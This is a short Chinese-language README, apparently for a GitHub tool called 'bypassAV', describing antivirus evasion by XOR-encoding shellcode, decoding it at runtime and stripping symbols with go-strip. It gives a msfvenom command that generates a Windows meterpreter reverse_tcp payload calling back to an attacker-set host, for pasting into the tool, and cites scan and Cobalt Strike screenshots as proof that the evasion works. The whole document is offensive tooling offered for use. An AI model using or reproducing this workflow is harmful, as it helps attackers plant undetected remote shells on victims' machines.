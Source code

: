 # bypassAV
## 简介
破产版免杀，大致思路是将shellcode异或，之后在主程序中解码。
关键是清除一些符号信息，采用boy-hack大佬的go-strip

## 使用方法
msf或者cs生成c#格式的shellcode，粘贴到xor.py的buf当中

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=xxxxxxx lport=1234 -f csharp
$ python3 xor.py
```

## 免杀效果
![](scan.png)
![](cs.png)
# Reference 
https://github.com/boy-hack/go-strip